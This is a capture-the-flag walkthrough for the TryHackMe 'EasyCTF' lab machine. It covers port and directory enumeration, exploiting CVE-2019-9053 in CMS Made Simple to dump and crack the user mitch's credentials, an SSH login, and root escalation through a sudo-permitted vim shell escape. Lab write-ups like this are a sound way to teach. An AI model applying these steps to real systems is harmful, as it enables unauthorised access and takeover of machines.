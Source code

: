 ```yaml
---
title: "EasyCTF"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


<img src="simple.png" width=200 height=200 alt="simple">

## Enumeraion

### nmap

```
PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.226.203
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCj5RwZ5K4QU12jUD81IxGPdEmWFigjRwFNM2pVBCiIPWiMb+R82pdw5dQPFY0JjjicSysFN3pl8ea2L8acocd/7zWke6ce50tpHaDs8OdBYLfpkh+OzAsDwVWSslgKQ7rbi/ck1FF1LIgY7UQdo5FWiTMap7vFnsT/WHL3HcG5Q+el4glnO4xfMMvbRar5WZd4N0ZmcwORyXrEKvulWTOBLcoMGui95Xy7XKCkvpS9RCpJgsuNZ/oau9cdRs0gDoDLTW4S7OI9Nl5obm433k+7YwFeoLnuZnCzegEhgq/bpMo+fXTb/4ILI5bJHJQItH2Ae26iMhJjlFsMqQw0FzLf
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM6Q8K/lDR5QuGRzgfrQSDPYBEBcJ+/2YolisuiGuNIF+1FPOweJy9esTtstZkG3LPhwRDggCp4BP+Gmc92I3eY=
|   256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2I73yryK/Q6UFyvBBMUJEfznlIdBXfnrEqQ3lWdymK
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### ffuf

```
.htaccess               [Status: 403, Size: 294, Words: 22, Lines: 12]
[Status: 200, Size: 11321, Words: 3503, Lines: 376]
.hta                    [Status: 403, Size: 289, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 294, Words: 22, Lines: 12]
index.html              [Status: 200, Size: 11321, Words: 3503, Lines: 376]
robots.txt              [Status: 200, Size: 929, Words: 176, Lines: 33]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12]
simple                  [Status: 301, Size: 309, Words: 20, Lines: 10]
```

They say its easy

`robots.txt` is written by 'mike'

fuzzing show a simple page with 301 code...we visited and got a simple page made with cms made simple (CMSMS)

`This site is powered by CMS Made Simple version 2.2.8`

okay then...of of the pages say

```
To get to the Administration Console you have to login as the administrator (with the username/password you mentioned during the installation process) on your site at http://yourwebsite.com/cmsmspath/admin. If this is your site click here to login.
```

lets google

Actually...found alot of cve that matches this version...but time-based sqli `CVE-2019-9053` was or best match

There is an exploit from exploitdb provided...a python script we are gonna use

Took me a bit to fix the script and make it work with python3 (I could just use python2 though)

I had to :

- change shebang line on top to 'python3' instead of 'python'
- add parenthesis to the print statements
- fix an error with md5 (added encode UTF-8 before the hexdigest) in crack_password function
- made sure to point -u argument to the simple cms path...like http://ip_address/simple
- and the most frustrating the TIME variable! due to my stupid slow internet I had to increase the variable to 20 to have results and it obviously took me waaaay longer

Anyway I got results

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

we ssh as mitch (remember the port is unusual -p 2222)

And we get right into business!
`$ cat user.txt`

## Priilege Escalation

```
$ sudo -l
User mitch may run the following commands on Machine:
(root) NOPASSWD: /usr/bin/vim
```

OH NO NOT VIM...hey but wait..we can run commands in vim

then its easy peazy

`sudo vim`

Then in vim we do:

```
:!/bin/bash
```

Ànd its over

```
root@Machine:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Fastest privEsc in the west

```
root@Machine:/root# cat root.txt
```

its indeed an easy ctf...but its always fun to do

glhf!
